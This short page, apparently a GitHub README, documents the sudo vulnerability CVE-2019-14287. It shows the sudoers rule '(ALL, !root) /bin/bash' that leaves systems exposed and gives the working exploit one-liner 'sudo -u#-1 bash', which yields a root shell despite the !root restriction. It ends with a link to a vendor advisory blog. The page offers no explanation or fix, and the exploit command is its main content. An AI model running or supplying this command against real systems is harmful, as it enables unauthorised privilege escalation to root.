 ### issue occurs when a user is allowed to run <command> as any user except the root user (example running bash)
```
(ALL, !root) /bin/bash
```

### exploit
```
sudo -u#-1 bash
```

### References
https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287  

